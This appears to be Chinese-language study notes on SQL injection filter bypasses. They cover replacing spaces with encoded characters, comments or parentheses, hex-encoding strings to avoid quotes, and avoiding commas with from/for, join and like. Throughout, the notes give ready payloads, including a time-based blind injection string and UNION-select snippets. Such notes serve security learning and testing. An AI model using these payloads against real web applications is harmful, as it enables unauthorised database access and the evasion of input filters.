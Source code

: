 # 信息




# 漏洞

## SQL注入

### 绕过

#### 1.绕过空格（注释符/* */，%a0）：
　　两个空格代替一个空格，用Tab代替空格，%a0=空格：
`%20` `%09` `%0a` `%0b` `%0c` `%0d` `%a0` `%00` `/**/`  `/*! */`
最基本的绕过方法，用注释替换空格：
/*  注释 */

使用浮点数：
`select * from users where id=8E0union select 1,2,3`
`select * from users where id=8.0 select 1,2,3`

#### 2.括号绕过空格：
　　如果空格被过滤，括号没有被过滤，可以用括号绕过。
　　**在MySQL中，括号是用来包围子查询的**。因此，**任何可以计算出结果的语句，都可以用括号包围起来**。**而括号的两端，可以没有多余的空格**。
例如：
`select(user())from dual where(1=1)and(2=2)`
　　这种过滤方法常常用于time based盲注,例如：
`?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23`
（from for属于逗号绕过下面会有）
　　上面的方法既没有逗号也没有空格。猜解database()第一个字符ascii码是否为109，若是则加载延时。

#### 3.引号绕过（使用十六进制）：
　　会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
`select column_name  from information_schema.tables where table_name="users"`
　　这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
`select column_name  from information_schema.tables where table_name=0x7573657273`

#### 4.逗号绕过（使用from或者offset）：
　　在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
`select substr(database() from 1 for 1);`
`select mid(database() from 1 for 1);`

- 使用join：
`union select 1,2`    #等价于
`union select * from (select 1)a join (select 2)b`

- 使用like：
`select ascii(mid(user(),1,1))=80`  #等价于
`select user() like 'r%'`
